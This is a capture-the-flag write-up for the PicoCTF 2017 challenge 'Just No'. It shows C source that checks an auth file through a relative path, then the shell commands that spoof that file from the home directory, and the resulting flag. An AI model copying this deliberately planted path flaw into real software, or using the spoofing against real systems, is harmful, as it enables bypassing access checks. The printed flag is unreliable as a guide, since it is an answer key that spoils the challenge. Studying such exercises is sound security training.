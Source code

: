 # PicoCTF_2017: Just No

**Category:** Binary Exploitation
**Points:** 40
**Description:**

>A program at /problems/ec9da1496f80c8248197ba564097cebb has access to a flag but refuses to share it. Can you convince it otherwise?

**Hint:**

>Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?

## Write-up
Hmm, let's get the flag.

    $ /problems/ec9da1496f80c8248197ba564097cebb/justno
    auth file says no. So no. Just... no. 

Damn it. Let's take a look at the source code. Wait.

**Source Code**

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){ 
  FILE* authf = fopen("../../problems/ec9da1496f80c8248197ba564097cebb/auth","r"); //access auth file in ../../../problems/ec9da1496f80c8248197ba564097cebb
  if(authf == NULL){
    printf("could not find auth file in ../../problems/ec9da1496f80c8248197ba564097cebb/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if(strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/ec9da1496f80c8248197ba564097cebb/flag","r");
    char flag[64];
    fgets(flag,64,flagf);
    printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s",flag);
    fclose(flagf);
  }else{
    printf("auth file says no. So no. Just... no.\n");
  }
  return 0;
}
```

    FILE* authf = fopen("../../problems/ec9da1496f80c8248197ba564097cebb/auth","r")

Haha! Relative paths! Now we can simply spoof a directory structure and make a fake auth file.

    $ cd ~
    $ mkdir problems
    $ mkdir problems/ec9da1496f80c8248197ba564097cebb
    $ cd problems/ec9da1496f80c8248197ba564097cebb
    $ echo "yes" > auth
    $ /problems/ec9da1496f80c8248197ba564097cebb/justno
	Oh. Well the auth file doesn't say no anymore so... Here's the flag: e4cec8fdf76a931b03ad7ef026103d43

Therefore, the flag is `e4cec8fdf76a931b03ad7ef026103d43`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQyMjYxNjk4NiwtMTk1MzMzNzQxMiwxMj
c1OTQ4MjIwLDEzMTU0NDc5NjZdfQ==
-->